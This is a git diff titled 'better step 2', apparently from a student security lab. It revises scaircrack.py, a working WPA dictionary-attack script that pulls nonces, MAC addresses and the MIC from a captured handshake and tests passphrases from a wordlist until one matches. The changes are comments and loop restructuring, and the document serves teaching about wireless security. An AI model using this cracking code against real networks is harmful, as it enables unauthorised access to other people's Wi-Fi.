

better step 2

diff --git a/files/scaircrack.py b/files/scaircrack.py
@@ -44,32 +44,30 @@ with open("wordlist") as f:
     dico = f.readlines()
 
 # Important parameters for key derivation - most of them can be obtained from the pcap file
-# passPhrase = "actuelle"
-A = "Pairwise key expansion"  # this string is used in the pseudo-random function
-ssid = wpa[0].info
-APmac = a2b_hex(wpa[5].addr2.replace(':', ''))
-Clientmac = a2b_hex(wpa[5].addr1.replace(':', ''))
+A           = "Pairwise key expansion" #this string is used in the pseudo-random function
+ssid        = wpa[0].info
+APmac       = a2b_hex(wpa[5].addr2.replace(':', '')) # Get AP mac address from Source of the first packet of the 4-way handshake
+Clientmac   = a2b_hex(wpa[5].addr1.replace(':', '')) # Get STA mac address  from Source of the first packet of the 4-way handshake
 
 # Authenticator and Supplicant Nonces
-ANonce = a2b_hex(b2a_hex(wpa[5].load)[26:90])
-SNonce = a2b_hex(b2a_hex(wpa[6].load)[26:90])
+ANonce      = a2b_hex(b2a_hex(wpa[5].load)[26:90]) # getting nounce in the first packet of the 4-way handshake
+SNonce      = a2b_hex(b2a_hex(wpa[6].load)[26:90]) # getting nounce in the second packet of the 4-way handshake
 
 # This is the MIC contained in the 4th frame of the 4-way handshake
 # When attacking WPA, we would compare it to our own MIC calculated using passphrases from a dictionary
-mic_to_test = b2a_hex(wpa[8].load)[154:186].decode()
+mic_to_test = b2a_hex(wpa[8].load)[154:186].decode() # getting MIC from the last (4e) packet of the 4-way handshake
 
-B = min(APmac, Clientmac) + max(APmac, Clientmac) + min(ANonce, SNonce) + max(ANonce,
-                                                                              SNonce)  # used in pseudo-random function
+B           = min(APmac, Clientmac)+max(APmac, Clientmac)+min(ANonce, SNonce)+max(ANonce, SNonce) #used in pseudo-random function
 
-# data
-data = a2b_hex("%02x" % wpa[8][5].version + "%02x" % wpa[8][5].type + "%04x" % wpa[8][5].len + b2a_hex(
-    wpa[8][5].load[:77]).decode().ljust(190, '0'))
+data        = a2b_hex("%02x" % wpa[8][5].version +     # add version in 1 Byte hex
+                             "%02x" % wpa[8][5].type + # add key type in 1 Byte hex
+                             "%04x" % wpa[8][5].len +  # Add len in 2 Byte hex
+                             b2a_hex(wpa[8][5].load[:77]).decode().ljust(190, '0')) # Add Key (description + information + len) + Replay counter + Key (Nounce + IV + RSC ID) + padding
 
-i = 749
-found = False
-while i < len(dico) and not found:
+
+for word in dico[745:]:
     # Get one possible passhprase from the dictionary
-    passPhrase = str.encode(dico[i][:-1])
+    passPhrase = str.encode(word[:-1])
 
     # calculate 4096 rounds to obtain the 256 bit (32 oct) PMK
     pmk = pbkdf2(hashlib.sha1, passPhrase, ssid, 4096, 32)
@@ -90,9 +88,11 @@ while i < len(dico) and not found:
     MIC_hex_truncated = mic.hexdigest()[0:32]
 
     # Control if the mic from the dictionary passphrase is the same the one from the passphrase we try to find
-    print("Pass phrase: %s\nMIC: %s\n" % (passPhrase.decode(), MIC_hex_truncated))
+    print("%s \t=> MIC: %s" % (passPhrase.decode(), MIC_hex_truncated))
 
-    found = MIC_hex_truncated == mic_to_test
-    i += 1
+    if MIC_hex_truncated == mic_to_test:
+        print("Pass phrase found! It's \"%s\"." % passPhrase.decode())
+        exit(0)
 
-print("Pass phrase found! It's \"%s\"." % passPhrase.decode())
+print("Pass phrase not found... :(")
+exit(-1)
